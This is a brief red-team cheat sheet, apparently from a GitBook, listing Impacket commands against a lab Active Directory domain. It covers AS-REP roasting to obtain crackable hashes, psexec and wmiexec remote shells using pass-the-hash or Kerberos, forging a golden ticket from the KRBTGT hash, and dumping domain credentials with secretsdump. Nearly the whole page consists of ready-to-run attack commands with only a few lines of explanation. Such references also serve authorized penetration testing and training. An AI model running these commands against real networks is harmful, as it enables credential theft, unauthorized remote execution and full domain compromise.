 # Impacket

## Enumeration

{% hint style="info" %}
**-format hashcat to export a formated hash**
{% endhint %}

### Account with doesn't require Kerberos Auth

```csharp
./GetNPUsers.py -dc-ip 10.110.0.222 -request 'crook.badcorp.local/' -format hashcat
```

## File server

```csharp
sudo ./smbserver.py Test /tmp -smb2support -user polo -password test123 
```

## Psexec

```csharp
./psexec.py -hashes <ntlm hash:ntlm hash> Administrator@<HOSTNAME>

# or without password (kerberos)

./psexec.py CROOK.BADCORP.LOCAL/Administrator@DC103 -k -no-pass
```

## Wmiexec

{% hint style="warning" %}
As opposite to psexec which provides NT LOCAL/System shell, wmiexec allows to keep the requested user context, i.e. Domain\Administrator will get an Domain\Administrator shell.
{% endhint %}

```csharp
./wmiexec.py CROOK.BADCORP.LOCAL/Administrator@DC103 -k -no-pass
```

## Golden Ticket

### Request a TGT

```csharp
./ticketer.py -nthash <KRBTGT NTLM HASH> -domain-sid <DOMAIN SID> -domain <MYDOMAIN.LOCAL> Administrator
```

### Import the TGT

```csharp
export KRB5CCNAME=krb5cc_91801115_mine
```

### Connect using the ticket

```csharp
./psexec.py CROOK.BADCORP.LOCAL/Administrator@10.110.0.222 -k -no-pass
```

## DSYNC

```csharp
./secretsdump.py crook.badcorp.local/User:Password@10.110.0.222
```

